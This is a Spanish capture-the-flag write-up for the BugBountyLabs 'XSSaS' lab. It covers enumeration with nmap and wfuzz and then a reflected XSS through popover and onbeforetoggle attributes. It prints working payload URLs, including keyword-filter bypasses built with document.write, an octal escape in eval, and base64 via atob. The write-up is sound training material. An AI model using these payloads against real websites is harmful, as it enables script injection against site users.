 ```yaml
---
title: "XSSaS"
date: 2025-02-12 00:00:00 +0800
categories: writeups bugbountylabs
tags: xss writeup bugbountylabs linux
description: Writeup de la máquina XSSaS de BugBountyLabs.
image: ../assets/images/posts/logos/bugbountylabs.jpeg
---
```


## Resumen de la resolución

**XSSaS** es una máquina **Linux** de dificultad **Insane (Experto)** de la plataforma de **BugBountyLabs**. En ella explotaremos un **XSS** a través parámetro **user** que le pasamos vía **GET**. Dicho parámetro se almacena en el atributo `value` del campo `input`. Finalmente, la inyección **XSS** se acontece gracias al atributo `popovertarget` usado en el `button` y al atributo `onbeforetoggle` y `popover` que inyectamos en el campo `input`.

___
## Enumeración

En primer lugar, realizaremos un barrido en la red para encontrar la **Dirección IP** de la máquina víctima, para ello usaremos el siguiente comando.

```bash
arp-scan -I ens33 --localnet
```

A continuación podemos ver la **Dirección IP**  ya que el **OUI** es **08:00:27**, correspondiente a una máquina virtual de **Virtual Box**.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172108.png>)

Después le lanzaremos un **ping** para ver si se encuentra activa dicha máquina, además de ver si acepta la traza **ICM**. Comprobamos que efectivamente nos devuelve el paquete que le enviamos por lo que acepta la traza **ICMP**, gracias al **ttl** podremos saber si se trata de una máquina **Linux (TTL 64 )** y **Windows (TTL 128)**, y vemos que se trata de una máquina **Linux** pues cuenta con **TTL** próximo a 64 (**63**), además gracias al script **whichSystem.py** podremos conocer dicha información.
### Nmap

En segundo lugar, realizaremos un escaneo por **TCP** usando **Nmap** para ver que puertos de la máquina víctima se encuentra abiertos.

```bash
nmap -p- --open --min-rate 5000 -sS -v -Pn -n 192.168.26.79 -oG allPorts
```

Observamos como nos reporta que se encuentra abiertos los puertos **22 y 80**.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212171753.png>)

En el segundo escaneo de **Nmap** no veremos nada interesante.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250217105934.png>)

___
### Puerto 80 - HTTP (Werkzeug - Python)

En primer lugar, nos dirigimos al servidor web y tras un buen rato intentando encontrar el vector de entrada veremos que al introducir el parámetro **user** en la **URL**, dicho valor se ve reflejado en el atributo `value` del campo `input`.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172458.png>)

Es posible que no encontremos el parámetro **user**, por lo que alternativamente lo podríamos haber descubierto a través de un fuzzing de parámetros usando **Wfuzz** de la siguiente forma.

```bash
wfuzz -c -u "http://192.168.26.79/?FUZZ=test" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt --hh 548
```

Tal y como se aprecia abajo conseguimos descubrir el parámetro `user` de igual forma.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212175110.png>)

Una vez hemos descubierto el vector de entrada probaremos la siguiente inyección **XSS** usando este payload.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="><h1>test</h1>
```

Tal y como vemos a continuación, los caracteres `<` y `>` están siendo convertidos a `&lt;` y `&lt`, por lo que no podremos inyectar un **XSS**.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172540.png>)

Tras revisar el código fuente nos llamará la atención el atributo `popovertarget` presente en el `button`. Por lo que buscando por internet daremos con el siguiente artículo [XSS popovertarget - Portswigger](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) donde explican como acontecer un **XSS** a partir de este atributo (`popovertarget`).

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172611.png>)

___
## Explotación
### **XSS**

Tras mirar el anterior artículo entenderemos como acontecer un **XSS** abusando del atributo `popovertarget`, en definitiva el payload es el siguiente.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="prompt(1)
```

Tal y como vemos a continuación conseguimos mostrar el cuadro del `prompt()`.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172926.png>)

Usando el mismo payload que antes intentaremos mostrar una ventana de `alert()`.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="alert(1)
```

Observamos que nos salta un mensaje de error ya que la palabra **alert** no está permitida.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212173018.png>)

Una forma de **bypasear** esta comprobación es usando la función `document.write()` tal que así.

> Destacar la importancia de **URL Encodear** los `+` a `%2B`.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="document.write('<script>ale'%2B'rt(1)</script>')
```

Tal y como se aprecia en la siguiente captura de pantalla conseguimos mostrar la ventana de `alert()`.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212174221.png>)

Tras ejecutar el anterior `alert()` no me detuve y seguí investigando sobre diferentes formas de **bypasearlo** y me encontré el siguiente artículo [XSS Bypass alert - Portswigger](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-script-code) donde pude extraer los siguientes payloads alternativos para ejecutar el `alert()`.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="eval('a\154ert(1)')
```

```http
http://192.168.26.79/?user="id=x popover onbeforetoggle="eval(atob('YWxlcnQoMSk'));
```